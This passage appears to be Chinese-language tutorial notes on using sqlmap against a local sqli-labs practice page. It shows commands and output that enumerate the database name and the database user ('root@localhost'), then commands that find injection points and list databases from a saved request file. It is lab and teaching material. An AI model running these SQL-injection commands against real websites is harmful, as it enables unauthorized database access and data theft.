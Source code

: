 **获取当前网站数据库的名称**

```shell
[hacker@Blackarch]-[~]
>>> sqlmap -u "http://192.168.8.121/sql-lab/Less-1/?id=1" --current-db
```

```shell
[23:07:21] [INFO] fetching current database
current database: 'security'
[23:07:21] [INFO] fetched data logged to text files under '/home/hacker/.local/share/sqlmap/output/192.168.8.121'
[23:07:21] [WARNING] your sqlmap version is outdated

[*] ending @ 23:07:21 /2023-05-08/
```

**获取当前网站数据库用户名**

```shell
[hacker@Blackarch]-[~]
>>> sqlmap -u "http://192.168.8.121/sql-lab/Less-1/?id=1" --current-user
```

```shell
[23:09:01] [INFO] fetching current user
current user: 'root@localhost'
[23:09:01] [INFO] fetched data logged to text files under '/home/hacker/.local/share/sqlmap/output/192.168.8.121'
[23:09:01] [WARNING] your sqlmap version is outdated

[*] ending @ 23:09:01 /2023-05-08/
```

----

### sqlmap文件注入

**寻找注入点**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/test.txt
```

**查看所有的数据库**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/test.txt --dbs
```

**查看当前的数据库**

```shell
┌──(zql㉿kali)-[~]
└─$ sqlmap -r /home/zql/Documents/test.txt --current-db
```
